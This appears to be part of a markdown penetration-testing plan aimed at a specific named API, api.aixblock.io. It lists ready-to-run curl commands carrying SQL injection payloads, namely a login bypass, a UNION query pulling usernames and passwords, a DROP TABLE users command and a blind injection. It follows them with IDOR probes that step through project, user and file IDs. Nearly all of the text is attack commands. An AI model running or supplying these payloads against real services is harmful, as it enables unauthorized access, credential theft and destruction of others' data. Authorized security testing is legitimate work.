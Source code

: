 
## **🎯 PHASE 3: DISCOVERY OF HIGH-VALUE VULNERABILITIES (Week 3)**

### **🔴 PRIORITY 1: SQL INJECTION**
**Dark Web Status**: #2 most common vulnerability
**Testing Strategy**:

```bash
# Authentication bypass
curl "https://api.aixblock.io/api/v1/auth/login" \
  -d "username=admin&password=' OR 1=1--"

# Data extraction
curl "https://api.aixblock.io/api/v1/users?id=' UNION SELECT username,password FROM users--"

# Command execution
curl "https://api.aixblock.io/api/v1/query?sql='; DROP TABLE users; --"

# Blind SQL injection
curl "https://api.aixblock.io/api/v1/endpoint?id=1' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--"
```

### **🔴 PRIORITY 2: IDOR (Insecure Direct Object References)**
**Dark Web Status**: #1 most common vulnerability
**Testing Strategy**:

```bash
# Test object ID manipulation
curl -X GET "https://api.aixblock.io/api/v1/projects/123" \
  -H "Authorization: Bearer <token>"

# Change project_id from 123 to 124
curl -X GET "https://api.aixblock.io/api/v1/projects/124" \
  -H "Authorization: Bearer <token>"

# Test user ID manipulation
curl -X GET "https://api.aixblock.io/api/v1/users/1" \
  -H "Authorization: Bearer <token>"

# Change user_id from 1 to 2
curl -X GET "https://api.aixblock.io/api/v1/users/2" \
  -H "Authorization: Bearer <token>"

# Test file ID manipulation
curl -X GET "https://api.aixblock.io/api/v1/files/1" \
  -H "Authorization: Bearer <token>"

# Change file_id from 1 to 2
curl -X GET "https://api.aixblock.io/api/v1/files/2" \
  -H "Authorization: Bearer <token>"
```
